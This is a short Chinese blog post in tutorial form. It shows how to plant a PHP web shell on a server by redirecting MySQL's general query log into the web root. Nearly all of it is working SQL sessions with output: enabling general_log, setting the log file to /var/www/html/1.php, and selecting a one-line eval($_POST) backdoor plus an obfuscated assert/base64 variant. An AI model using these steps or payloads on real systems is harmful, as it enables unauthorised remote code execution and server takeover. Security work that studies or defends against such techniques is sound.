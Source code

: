 ```yaml
---
layout: post

title: "mysql的兼职技能"
date: 2017-03-28 22:02:11 +0800

categories: post
tags: [mysql, shell, 网络安全]
---
```

>必须在mysql 的`root`权限下

查看`general_log`状态

```sql
mysql> show variables like '%general%';
+------------------+----------------------------+
| Variable_name    | Value                      |
+------------------+----------------------------+
| general_log      | OFF                        |
| general_log_file | /var/lib/mysql/itaken.log |
+------------------+----------------------------+
2 rows in set (0.22 sec)

mysql>
```
开启mysql查询日志, 设置日志文件路径
>这里是存储了每一个sql语句执行的日志（包含SQL语句本身）

```sql
mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)

mysql> set global general_log_file = '/var/www/html/1.php';
Query OK, 0 rows affected (0.00 sec)

mysql> show variables like '%general%';
+------------------+---------------------+
| Variable_name    | Value               |
+------------------+---------------------+
| general_log      | ON                  |
| general_log_file | /var/www/html/1.php |
+------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
>`1.php`文件如果不存在,则会创建,所以该目录必须有创建文件权限, 否则会报错
```sql
mysql> set global general_log_file = '/var/www/html/1.php';
ERROR 29 (HY000): File '/var/www/html/1.php' not found (Errcode: 13 - Permission denied)
```

执行sql查询, 记录到日志
```sql
mysql> select '<?php eval($_POST[cmd]);?>';
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
1 row in set (0.00 sec)

mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```


>原文: [SQL语句利用日志写shell](https://evi1cg.me/archives/test1.html)

---
更多阅读
- [mysql语句执行记录写一句话](http://www.sakill.com/?p=426)
- [The General Query Log](https://dev.mysql.com/doc/refman/5.7/en/query-log.html)
- [phpmyadmin新姿势getshell](http://blog.cora-lab.org/287.html)
